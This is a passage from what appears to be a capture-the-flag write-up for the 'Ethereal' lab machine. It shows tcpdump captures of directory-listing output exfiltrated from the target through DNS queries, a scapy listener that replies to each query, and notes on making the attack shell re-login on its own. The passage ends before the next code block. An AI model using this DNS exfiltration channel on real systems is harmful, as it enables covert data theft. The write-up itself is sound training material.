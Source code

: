 

If I watch in `tcpdump`, I'll see that each query is coming in multiple
times. Here's the line `06/30/2018 10:10 PM <DIR> inetpub` in 5 queries:



    22:26:08.157743 IP ethereal.htb.63609 > kali.domain: 1+ PTR? 14.14.10.10.in-addr.arpa. (42)
    22:26:10.155284 IP ethereal.htb.56936 > kali.domain: 2+ A? Q06/30/2018X.Q10:10X.QPMX.Q<DIR>X.QinetpubX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX. (124)                                               
    22:26:12.155170 IP ethereal.htb.56937 > kali.domain: 3+ AAAA? Q06/30/2018X.Q10:10X.QPMX.Q<DIR>X.QinetpubX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX. (124)                                            
    22:26:14.155072 IP ethereal.htb.56938 > kali.domain: 4+ A? Q06/30/2018X.Q10:10X.QPMX.Q<DIR>X.QinetpubX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX. (124)                                               
    22:26:16.856501 IP ethereal.htb.56939 > kali.domain: 5+ AAAA? Q06/30/2018X.Q10:10X.QPMX.Q<DIR>X.QinetpubX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX. (124)



I suspect that's because it doesn't get an answer, so it tries to ask
again. I'll update the DNS listener to send a response for each domain
with the answer "127.0.0.1":



     23     def parse_packet(self, p):
     24         if p.haslayer(DNS) and p.getlayer(DNS).qd.qtype == 1:
     25             domain = p.getlayer(DNS).qd.qname.decode('utf-8')
     26             print(domain[1:-2].replace('X.Q',' ').strip())
     27             reply = IP(dst=p[IP].src)/UDP(dport=p[UDP].sport, sport=53)/DNS(id=p[DNS].id,
     28                     ancount=1, an=DNSRR(rrname=p[DNSQR].qname, rdata='127.0.0.1')/DNSRR(rrname=domain,
     29                     rdata='127.0.0.1'))
     30             send(reply, verbose=0, iface=self.interface)



That eliminates the doubles, and reduces the number of DNS packets from
five to three, and speeds up the process.

## Improvements

### Error Checking

Sometimes I would walk away from my computer, and the state tokens would
go stale. That causes a 500 response to come back when I sent a POST. I
could just kill the shell and re-open it, but I'd rather have it just
recognize the issue and re-initiate. To do this, I'll move much of the
stuff from `__init__()` to a `do_login()` function (and call it from
`__init__()`), and then add a check on the response when I make a POST.
If it comes back 500 immediately (using a timer to differentiate from a
call that eventually times out to 500 while running a lot of DNS), I'll
call `do_login`. Having the Login function start with `do_` means that I
can refresh my login any time by just entering `login` from the shell
command line.

My `send_post` now looks like this:

